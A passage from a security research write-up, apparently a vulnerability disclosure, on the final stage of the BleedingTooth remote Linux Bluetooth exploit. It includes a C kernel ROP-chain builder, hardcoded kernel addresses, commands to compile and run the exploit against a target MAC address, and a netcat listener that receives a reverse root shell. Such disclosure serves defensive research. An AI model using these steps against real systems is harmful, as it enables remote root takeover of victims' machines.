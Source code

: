 Subtracting the slide from the two addresses from before yields:

```
#define RUN_CMD 0xffffffff810ce470
#define DO_TASK_DEAD 0xffffffff810dc260
```

Finally, we can find gadgets for `pop rax ; ret`, `pop rdi ; ret` and `jmp rax` with ROPgadget and then we can construct the kernel ROP chain according to this example:

```
static void build_krop_chain(uint64_t *rop, uint64_t cmd_addr) {
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + RUN_CMD;
  *rop++ = kaslr_offset + POP_RDI_RET;
  *rop++ = cmd_addr;
  *rop++ = kaslr_offset + JMP_RAX;
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + DO_TASK_DEAD;
  *rop++ = kaslr_offset + JMP_RAX;
}
```

This ROP chain should be placed at offset 0x40 within the fake `struct bpf_prog` object, and `cmd_addr` should point to the bash command planted in kernel memory. With everything at the right place, we can finally retrieve a root shell from the victim.

### Proof-Of-Concept

The Proof-Of-Concept is available at [https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth](https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth).

Compile it using:

```
$ gcc -o exploit exploit.c -lbluetooth
```

and execute it as:

```
$ sudo ./exploit target_mac source_ip source_port
```

In another terminal, run:

```
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

If successful, a calc can be spawned with:

```
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```
